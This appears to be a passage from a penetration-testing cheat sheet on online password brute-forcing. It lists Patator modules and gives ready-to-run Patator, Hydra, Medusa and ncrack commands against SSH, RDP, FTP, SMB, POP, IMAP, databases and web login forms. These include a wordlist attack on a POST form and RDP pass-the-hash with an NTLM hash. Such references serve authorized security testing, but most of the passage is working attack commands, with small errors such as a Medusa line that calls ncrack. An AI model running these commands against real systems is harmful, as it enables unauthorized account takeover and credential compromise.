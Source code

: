   ```
  * pop_login      : Brute-force POP
  * pop_passd      : Brute-force poppassd (not POP3)
  * imap_login     : Brute-force IMAP
  * ldap_login     : Brute-force LDAP
  * smb_login      : Brute-force SMB
  * smb_lookupsid  : Brute-force SMB SID-lookup
  * rlogin_login   : Brute-force rlogin
  * vmauthd_login  : Brute-force VMware Authentication Daemon
  * mssql_login    : Brute-force MSSQL
  * oracle_login   : Brute-force Oracle
  * mysql_login    : Brute-force MySQL
  * mysql_query    : Brute-force MySQL queries
  * rdp_login      : Brute-force RDP (NLA)
  * pgsql_login    : Brute-force PostgreSQL
  * vnc_login      : Brute-force VNC
  * dns_forward    : Brute-force DNS
  * dns_reverse    : Brute-force DNS (reverse lookup subnets)
  * ike_enum       : Enumerate IKE transforms
  * snmp_login     : Brute-force SNMPv1/2 and SNMPv3
  * unzip_pass     : Brute-force the password of encrypted ZIP files
  * keystore_pass  : Brute-force the password of Java keystore files
  * sqlcipher_pass : Brute-force the password of SQLCipher-encrypted databases
  * umbraco_crack  : Crack Umbraco HMAC-SHA1 password hashes
  ```
  ```
  patator http_fuzz url=http://example.com/index.php method=POST
  body=​ 'name=zapper&password=FILE0&autologin=1&enter=Sign+in'
  0=/usr/share/SecLists/Passwords/darkweb2017-top1000.txt accept_cookie=1 follow=1
  -x ignore:fgrep=​ 'Login name or password is incorrect.'
  ```
- Hydra - <https://github.com/vanhauser-thc/thc-hydra>
  ```
  SSH: hydra 10.10.10.1 -l testuser -P wordlist.txt  -t 4 ssh
  RDP: hydra -V -l testuser -P wordlist.txt rdp://10.10.10.1
  FTP: hydra 10.10.10.1 -V -l testuser -P wordlist.txt ftp
  SMB: hydra 10.10.10.1 -V -l testuser -P wordlist.txt smb
  POST form: hydra -l testuser -p wordlist.txt -e nsr 10.10.10.1 http-post-form "http://10.10.10.1/login.php:username=^USER^&ssword=^PASS^&submit=Login:<Error message>" -V
  ```
  ```
  Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,
  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY,
  HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy,
  ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP,
  Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP,
  Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3,
  SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet,
  VMware-Auth, VNC and XMPP
  ```
- Medusa - <https://github.com/jmk-foofus/medusa>
  ```
  Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
  SSH: medusa -u testuser -P wordlist.txt -h <host> -M ssh
  FTP: ncrack -u testuser -P wordlist.txt -T 5 <host> -M ftp
  RDP (pass-the-hash): medusa -M rdp -m PASS:HASH -h <host> -u someuser -p <NTLM_hash>
  ```
  ```
  AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3,
  PostgreSQL, REXEC, RDP, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2,
  Subversion (SVN), Telnet, VMware Authentication Daemon (vmauthd), VNC,
  Generic Wrapper, Web Form
  ```
- ncrack - <https://github.com/nmap/ncrack>
  ```
  SSH: ncrack -u testuser -P wordlist.txt <host> -p 22
  ```